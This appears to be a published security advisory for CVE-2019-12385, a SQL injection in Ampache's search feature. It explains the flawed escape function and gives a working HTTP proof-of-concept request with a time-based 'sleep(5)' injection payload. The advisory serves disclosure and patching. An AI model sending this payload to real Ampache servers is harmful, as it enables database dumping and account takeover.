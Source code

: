 # CVE-2019-12385: SQL injection in Ampache
## Software
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-Low-yellow?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()

__Vendor:__ Ampache<br>
__Vendor URL:__ http://ampache.org<br>
__Versions affected:__ Ampache <= 3.9.1<br>
__Discovered by:__ Pablo Martinez ([@xassiz](https://twitter.com/xassiz))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ Yes ([ref](https://github.com/blackarrowsec/advisories/blob/master/2019/CVE-2019-12385/CVE-2019-12385.py)) <br>



## Summary
The search engine is affected by a SQL Injection, so any user able to perform lib/class/search.class.php searches (even guest users) can dump any data contained in the database (sessions, hashed passwords, etc.). 

## Details
Communication with the database is made via the Dba class (ORM), which relays on PHP PDO to perform queries. Some of them are performed properly using prepared statements, but in other cases the Dba::escape method is used.

lib/class/dba.class.php:

```php
134:    public static function escape($var)
135:    {
136:        $dbh = self::dbh();
137:        if (!$dbh) {
138:            debug_event('Dba', 'Wrong dbh.', 1);
139:            exit;
140:        }
141:        $var = $dbh->quote($var);
142:        // This is slightly less ugly than it was, but still ugly
143:        return substr($var, 1, -1);
144:    }
```

This function calls PDO::quote, which filters special characters and quotes the string. After that, outer single quotes are stripped. The latter means that if this value is not quoted within the query, an attacker could inject data in SQL context.

A vulnerable case supporting this theory is detailed below, although there could be more.

lib/class/search.class.php:

```php
1461:   case 'last_play':
1462:          $userid               = $GLOBALS['user']->id;
1463:          $where[]              = "`object_count`.`date` IS NOT NULL AND `object_count`.`date` $sql_match_operator (UNIX_TIMESTAMP() - ($input * 86400))";
1464:          $join['object_count'] = true;
1465:          break;
```
The $input variable is basically:
```
Dba::escape($USER_INPUT)
``` 

So a malicious user could provide SQL commands (avoiding quotes and other special chars). The next request confirms the vulnerability, causing a 5-seconds delay:

```
POST /search.php?type=song
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9,en;q=0.8,pt;q=0.7
Cookie: ampache=[session_id]
Connection: close
        
limit=0&operator=or&rule_1=last_play&rule_1_operator=1&rule_1_input=1))union+select+1+from+dual+where+sleep(5)--&action=search
```


## Impact
This vulnerability may lead to a full compromise of admin accounts, when combined with the weak password generator algorithm used in the lostpassword functionality.

## Recommendation
Update to last version.

## Timeline

* 25/04/2019 - Reported vulnerability to vendor
* 24/06/2019 - First fix attempt
* 25/06/2019 - Incorrect fix notification
* 25/06/2019 - Final fix at Github

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)

